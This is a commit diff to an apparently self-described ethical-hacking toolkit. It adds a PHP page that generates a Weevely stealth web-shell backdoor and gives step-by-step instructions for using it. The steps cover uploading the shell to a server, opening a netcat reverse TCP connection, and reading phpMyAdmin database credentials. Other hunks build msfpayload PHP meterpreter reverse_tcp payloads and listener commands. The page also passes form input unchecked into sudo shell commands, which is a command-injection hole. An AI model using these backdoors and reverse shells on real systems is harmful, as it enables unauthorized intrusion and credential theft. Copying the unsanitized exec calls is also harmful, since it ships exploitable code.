
After one commit to veerupandey/Penetration-Testing-Toolkit, a PHP site: page /phpbackdoor.php in a window 1280 px wide. The commit adds this page. Shown: the whole page at 91% size. Run offline with PHP 8.4, Linux system fonts and the light colour scheme.

Commit message:
modified:   README.md 	modified:   install.sh 	new file:   lab/phpbackdoor.php

```diff
--- a/lab/layout.php
+++ b/lab/layout.php
@@ -136,6 +136,7 @@
                     <li class="icn_settings"><a href="exe.php">Backdooring exe</a></li>
                     <li class="icn_security"><a href="deb.php">Debian package backdoor</a></li>
                     <li class="icn_categories"><a href="check.php">PDF Backdoor</a></li>
+                    <li class="icn_jump_back"><a href="phpbackdoor.php">PHP Backdoor</a></li>
                         </ul>
 
 
--- a/lab/payload.php
+++ b/lab/payload.php
@@ -88,9 +88,10 @@ require_once 'u.php';
  </fieldset>
     <fieldset>
         <label>Web Shell</label><label style="float:right;margin-right: 2%">Description</label><br/>
-      <p><input type="radio" value="c13" name="c">PHP <v style=" float: right;margin-right:  4%">PHP Meterpreter, PHP Reverse TCP Stager
+        <p><input  type="radio" value="c13" name="c" >PHP<v style=" float: right;margin-right:  4%">PHP Meterpreter Reverse_tcp
 
 </v> </p>
+
  <p><input  type="radio" value="c14" name="c" >ASP<v style=" float: right;margin-right:  4%">ASP Page with metasploit payload
 
 </v> </p>
--- a/lab/payload_result.php
+++ b/lab/payload_result.php
@@ -329,6 +329,7 @@ echo 'sudo msfcli exploit/multi/handler PAYLOAD=java/shell/bind_tcp LHOST='.$ip.
 
                         break;
                     case c13:
+                        case c13:
                         shell("echo '[Wait] While I generate your payload........'");
                         exec("sudo msfpayload php/meterpreter/reverse_tcp LHOST=$ip LPORT=$port R >exploits/$pkg.php");
 
@@ -347,8 +348,8 @@ echo'<p>************************************************************************
 echo '<b>Note:</b> Upload this shell on website supporting PHP and start meterpreter listener ';
 echo '<p><b>To start listener copy and paste this code in to your terminal:</b></p>';
 echo 'sudo msfcli exploit/multi/handler PAYLOAD=php/meterpreter/reverse_tcp LHOST='.$ip.' LPORT='.$port.' E';
+                        break;
 
-                        break;
                     case c14:
                         shell("echo '[Wait] While i generate tour payload..........'");
                          exec("sudo sh cmd/quick/asp.sh $ip $port exploits/$pkg.asp");
--- /dev/null
+++ b/lab/phpbackdoor.php
@@ -0,0 +1,131 @@
+<?php /***************************************************************************
+ Copyright (C) 2014 Rakesh Pandey
+ Written by Rakesh Pandey <rakeshpandey@karunya.edu.in>.
+
+ This file is part of Penetration Testing Toolkit, a web interface for various ethical hacking tools.
+
+ Penetration Testing Toolkit is free software; you can redistribute it and/or modify it
+ under the terms of the GNU General Public License as published by the Free
+ Software Foundation; either version 2 of the License, or (at your option)
+ any later version.
+
+ Penetration Testing Toolkit is distributed in the hope that it will be useful, but WITHOUT
+ ANY WARRANTY; without even the implied warranty of MERCHANTABILITY or
+ FITNESS FOR A PARTICULAR PURPOSE.  See the GNU General Public License for
+ more details.
+
+ You should have received a copy of the GNU General Public License along
+ with Penetration Testing Toolkit; if not, write to the Free Software Foundation, Inc.,
+ 59 Temple Place, Suite 330, Boston, MA  02111-1307  USA.
+***************************************************************************/?>
+<?php
+require_once 'layout.php';
+require_once 'u.php';
+?>
+
+<section id="main" class="column">
+
+		<h4 class="alert_info">Welcome to the Web Based Penetration Testing Toolkit.</h4>
+
+
+
+
+		<div class="clear"></div>
+
+		<article class="module width_full">
+			<header><h3><label>STEP 1:</label><b>Generate the php stealth backdoor</b></h3></header>
+				<div class="module_content">
+<form name="form1" action="" method="post">
+
+						<fieldset>
+							<label>Name of the backdoor</label>
+                                                        <input type="text" name="name" id="ur" value="yourshell.php ">
+
+						</fieldset>
+    <fieldset>
+							<label>Enter password to use</label>
+                                                        <input type="text" name="pass" id="ur" value="pentest">
+
+						</fieldset>
+    <?php
+    if(isset($_POST['submit'])){
+        $name=$_POST['name'];
+        $pass=$_POST['pass'];
+        echo ' <div  id="dvProgress" runat="server">
+        Please Wait ...<img src="veeru.gif" style="vertical-align: middle" alt="Processing" />
+    </div> ';
+        echo "<fieldset id='dvProgress'><label>Your Backdoor</label><br/>";
+ echo '<p>Gnerating PHP Backdoor using weevely...</p>';
+ shell("weevely generate $pass $name");
+ exec("sudo mv $name exploits/$name");
+ exec("sudo zip exploits/php.zip exploits/$name");
+ echo '<p>Available for download in zip @  --><a href=exploits/php.zip>Click here</a></p>';
+        echo '</fieldset>';
+    }
+    ?>
+
+						<div class="clear"></div>
+				</div>
+			<footer>
+				<div class="submit_link">
+
+                                    <input type="submit" name="submit" value="Generate" class="alt_btn" id="submit">
+                                   <input type="reset" value="Reset" >
+				</div>
+			</footer>
+		</article><!-- end of post new article -->
+
+             <article class="module width_full">
+			<header><h3><label>STEP 2:</label><b>Upload and start connection</b></h3></header>
+				<div class="module_content">
+<form name="form1" action="" method="post">
+    <fieldset>
+        <label>Step 2a.</label> Upload this PHP stealth web shell and backdoor to a web server (that support php)
+    </fieldset>
+     <fieldset>
+         <label>Step 2b.</label>Let say u’ve successfully uploaded the PHP backdoor with the address <b>http://192.168.2.29/upload/yourshell.php</b>
+         where upload is the directory on the server where you uploaded your shell.<?php $host=$_SERVER['SERVER_ADDR'];echo "<p>Open Terminal  <a target='_blank' href='https://$host:4200/'>here</a></p>";?>
+
+     </fieldset>
+    <fieldset>
+        <label>Step 2c.</label><b>Type in console:  </b>
+        <code>weevely http://192.168.2.29/upload/yourshell.php pentest</code>
+    </fieldset>
+
+    <fieldset>
+        <label>Step 2d.</label><b>www-data@192.168.2.29:  </b>
+        <code>shell.sh ls</code><p>
+        <b>Format :</b> shell.sh  system_command</p>
+    </fieldset>
+        <fieldset>
+            <label>Step 2e.</label>Use NetCat to listen for an incoming connection in our attacker computer
+            <?php $host=$_SERVER['SERVER_ADDR'];echo "<p>Open <a target='_blank' href='https://$host:4200/'>Terminal </a>and type:<code>  nc -l -v -p 23</code></p>";?>
+    </fieldset>
+    <fieldset>
+        <label>Step 2f.</label>Back to Weevely terminal opened in <b>step 2D</b>, after NetCat successfully listening on specific port, now we make a reverse TCP connection to our computer.
+        <code>backdoor.reverse_tcp your_ip 23</code>
+    </fieldset>
+    <fieldset>
+        <label>Step 2g.</label>If remote  server is a web server with MySQL database and PHPMyadmin installed.Try this in your 'netcat' terminal opened in <b>step 2E</b>
+        <code>cat /etc/phpmyadmin/config-db.php</code>
+    </fieldset>
+     <fieldset>
+         <label>Note:</label> Use google to know more about <b>weevely</b>
+    </fieldset>
+
+
+						<div class="clear"></div>
+				</div>
+			<footer>
+
+			</footer>
+		</article><!-- end of post new article -->
+
+
+
+
+
+		<div class="spacer"></div>
+	</section>
+</body>
+</html>
```
Also changed, not shown: README.md, 1 other file.
